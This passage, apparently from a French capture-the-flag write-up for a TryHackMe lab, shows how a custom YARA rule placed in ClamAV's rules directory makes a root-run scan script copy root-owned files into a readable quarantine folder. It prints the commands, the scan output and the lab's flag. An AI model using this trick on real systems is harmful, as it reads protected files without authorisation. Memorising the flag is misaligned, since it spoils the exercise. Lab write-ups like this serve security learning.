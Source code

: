 Le scan peut lire le répertoire root et les fichiers.  

```bash
rule CheckFileName
{
  strings:
    $a = "root"
    $b = "THM"
    
  condition:
    $a or $b
}
```

On fabrique une règle qui dit à clamscan qui si un fichier contient la chaîne root ou THH c'est un virus. 

```bash
cyrus@lockdown:~$ cp rules.yar /var/lib/clamav/
```

On copie notre règle dans /var/lib/clamav/  

```bash
cyrus@lockdown:~$ sudo -u root /opt/scan/scan.sh
Enter path: /root/
/root/.bashrc: YARA.CheckFileName.UNOFFICIAL FOUND
/root/.bashrc: copied to '/home/cyrus/quarantine/.bashrc'
/root/root.txt: YARA.CheckFileName.UNOFFICIAL FOUND
/root/root.txt: copied to '/home/cyrus/quarantine/root.txt'
/root/.profile: OK

----------- SCAN SUMMARY -----------
Known viruses: 2
Engine version: 0.103.2
Scanned directories: 1
Scanned files: 3
Infected files: 2
Data scanned: 0.00 MB
Data read: 0.00 MB (ratio 0.00:1)
Time: 0.013 sec (0 m 0 s)
Start Date: 2021:11:04 23:47:14
End Date:   2021:11:04 23:47:14
```

On exécute le scan, root.txt est considéré comme un virus il est copié.   

```bash
cyrus@lockdown:~$ cd ./quarantine/
cyrus@lockdown:~/quarantine$ ls
root.txt
cyrus@lockdown:~/quarantine$ cat root.txt
THM{IQ23Em4VGX91cvxsIzatpUvrW9GZZJxm}
```

On lit le fichier root.txt dans quarantine et on a notre flag.   
Le flag est : THM{IQ23Em4VGX91cvxsIzatpUvrW9GZZJxm}  